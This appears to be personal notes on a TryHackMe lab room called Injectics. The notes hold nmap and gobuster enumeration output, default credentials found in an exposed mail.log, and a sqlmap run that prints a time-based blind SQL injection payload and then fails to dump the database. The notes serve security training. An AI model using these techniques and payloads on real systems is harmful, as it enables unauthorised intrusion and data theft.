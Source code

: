 <code>
  
## injectics

https://tryhackme.com/r/room/injectics

### Enumeration

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-16 06:01 EST
Nmap scan report for 10.10.136.219
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 df:14:5e:7b:3c:5d:14:1e:a2:fb:8e:16:69:e8:1d:b7 (RSA)
|   256 d8:a2:ad:30:00:60:82:f1:a0:d9:8e:b8:50:93:65:7c (ECDSA)
|_  256 0f:50:9b:b7:2a:46:2c:d3:be:bb:dd:41:ee:d6:79:1b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Injectics Leaderboard
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.136.219 -x php,txt,html                                            

[+] Url:                     http://10.10.136.219
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 6592]
/.php                 (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 5401]
/flags                (Status: 301) [Size: 314] [--> http://10.10.136.219/flags/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.136.219/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.136.219/js/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.136.219/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/vendor               (Status: 301) [Size: 315] [--> http://10.10.136.219/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> dashboard.php]
/functions.php        (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.136.219/phpmyadmin/]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/conn.php             (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 278]



### in source code found notice about mail.log

http://10.10.136.219/mail.log

from: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm


┌──(kali㉿kali)-[~/Documents/THM/THM_Injectics]
└─$ sqlmap -r reg1.txt --level 5 --risk=3 --dump     
        ___
       __H__                                                                                                        
 ___ ___["]_____ ___ ___  {1.8.11#stable}                                                                           
|_ -| . [(]     | .'| . |                                                                                           
|___|_  [)]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:15:11 /2025-01-16/

[09:15:11] [INFO] parsing HTTP request from 'reg1.txt'
[09:15:11] [INFO] resuming back-end DBMS 'mysql' 
[09:15:11] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=10.10.9.71' RLIKE SLEEP(5)-- hcXN&password=10.10.9.71&function=login
---
[09:15:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[09:15:11] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[09:15:11] [INFO] fetching current database
[09:15:11] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:15:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[09:15:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:15:13] [INFO] fetching database names
[09:15:13] [INFO] fetching number of databases
[09:15:13] [INFO] retrieved: 
[09:15:13] [ERROR] unable to retrieve the number of databases
[09:15:13] [INFO] falling back to current database
[09:15:13] [INFO] fetching current database
[09:15:13] [INFO] retrieved: 
[09:15:14] [CRITICAL] unable to retrieve the database names
[09:15:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.9.71'






  
<\code>
